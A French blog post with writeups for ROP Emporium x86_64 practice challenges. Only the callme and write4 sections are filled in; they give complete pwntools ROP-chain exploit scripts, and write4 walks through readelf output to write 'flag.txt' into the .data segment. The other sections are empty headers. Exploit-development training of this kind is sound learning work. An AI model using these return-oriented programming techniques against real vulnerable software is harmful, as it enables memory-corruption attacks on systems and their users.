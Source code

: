 ```yaml
---
title: "ROP Emporium - Writeups"
description: Writeups des challenges x86_64 de ROP Emporium 
---
```


Aujourd'hui je vous propose mes writeups des challenges x86_64 de [ROP Emporium](https://ropemporium.com/). Vous pouvez retrouver les [scripts de solution](https://github.com/nuts7/nuts7.github.io/tree/master/articles/ropemporium-writeups) directement sur mon GitHub. 😀

# Sommaire
1. [ret2win](#ret2win-writeup)
2. [split](#split-writeup)
3. [callme](#callme-writeup)
4. [write4](#write4-writeup)
5. [badchars](#badchars-writeup)
6. [fluff](#fluff-writeup)
7. [pivot](#pivot-writeup)
8. [ret2csu](#ret2csu-writeup)

<div id='ret2win-writeup'/>
# ret2win

<div id='split-writeup'/>
# split

<div id='callme-writeup'/>
# callme

```py
from pwn import *

context.arch = 'amd64'
p = process("./callme")
elf = ELF("./callme")
rop = ROP("./callme")

padding = cyclic(40)
gadget = p64((rop.find_gadget(["pop rdi", "pop rsi", "pop rdx", "ret"]))[0])
callme_1 = p64(elf.symbols['callme_one'])
callme_2 = p64(elf.symbols['callme_two'])
callme_3 = p64(elf.symbols['callme_three'])
arg_1 = p64(0xdeadbeefdeadbeef)
arg_2 = p64(0xcafebabecafebabe)
arg_3 = p64(0xd00df00dd00df00d)

def first_call(padding, gadget, callme_1):
    pld_1 = padding
    pld_1 += gadget
    pld_1 += arg_1
    pld_1 += arg_2
    pld_1 += arg_3
    pld_1 += callme_1
    return pld_1

def second_call(padding, gadget, callme_2): 
    pld_2 = gadget
    pld_2 += arg_1
    pld_2 += arg_2
    pld_2 += arg_3
    pld_2 += callme_2
    return pld_2

def third_call(padding, gadget, callme_3):
    pld_3 = gadget
    pld_3 += arg_1
    pld_3 += arg_2
    pld_3 += arg_3
    pld_3 += callme_3
    return pld_3

ropchain = first_call(padding, gadget, callme_1) 
ropchain += second_call(padding, gadget, callme_2)
ropchain += third_call(padding, gadget, callme_3)

p.sendline(ropchain)
p.interactive()
```

<div id='write4-writeup'/>
# write4

Après lecture de la description du [challenge write4](https://ropemporium.com/challenge/write4.html), nous comprenons que nous allons devoir **write flag.txt** en mémoire dans un **segment du binaire accessible en écriture** et **call** la fonction `print_file()` dans la **PLT**. Il est spécifié que `print_file()` prend comme seul argument **l'emplacement mémoire** de flag.txt.

Premièrement regardons les permissions des différents segments et sections du binaire :
```py
❯ readelf -S write4
Il y a 29 en-têtes de section, débutant à l'adresse de décalage 0x1980:

En-têtes de section :
<...>
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1
<..>
Clé des fanions :
  W (écriture), A (allocation), X (exécution), M (fusion), S (chaînes), I (info),
  L (ordre des liens), O (traitement supplémentaire par l'OS requis), G (groupe),
  T (TLS), C (compressé), x (inconnu), o (spécifique à l'OS), E (exclu),
  l (grand), p (processor specific)
```

Nous remarquons que nous avons 2 segments avec le **flag W** (écriture) d'activé. Par exemple, écrivons la string **flag.txt** dans le segment `.data`. (nous pouvons aussi utiliser .bss)
<br/>

Récupérons l'adresse du segment :

```py
❯ readelf -s write4 | grep .data
     5: 0000000000601038     0 NOTYPE  GLOBAL DEFAULT   23 _edata
    48: 0000000000601028     0 NOTYPE  WEAK   DEFAULT   23 data_start
    49: 0000000000601038     0 NOTYPE  GLOBAL DEFAULT   23 _edata
    52: 0000000000601028     0 NOTYPE  GLOBAL DEFAULT   23 __data_start
```

L'adresse de ce dernier est `0x601028`.

```py
from pwn import *

context.arch = 'amd64'
p = process("./write4", stdin=PTY)
elf = ELF("./write4")
rop = ROP("./write4")

padding = cyclic(40)

data_segment = p64(elf.symbols["data_start"]) # readelf -s write4
flag_string = b"flag.txt"

pop_r14_pop_r15 = p64((rop.find_gadget(["pop r14", "pop r15", "ret"]))[0])
mov_ptr_r14_r15 = p64(0x400628)

pop_rdi = p64((rop.find_gadget(["pop rdi", "ret"]))[0])
print_file = p64(elf.symbols['print_file'])

pld = padding
pld += pop_r14_pop_r15 # to setup data addr & flag.txt in registers
pld += data_segment
pld += flag_string
pld += mov_ptr_r14_r15 # mov qword ptr [r14], r15 ; ret ==> to move flag.txt in data segment
pld += pop_rdi # to put the memory location of flag.txt in print_file() as argument
pld += data_segment
pld += print_file

p.sendline(pld)
p.interactive()
```

<div id='badchars-writeup'/>
# badchars

<div id='fluff-writeup'/>
# fluff

<div id='pivot-writeup'/>
# pivot

<div id='ret2csu-writeup'/>
# ret2csu
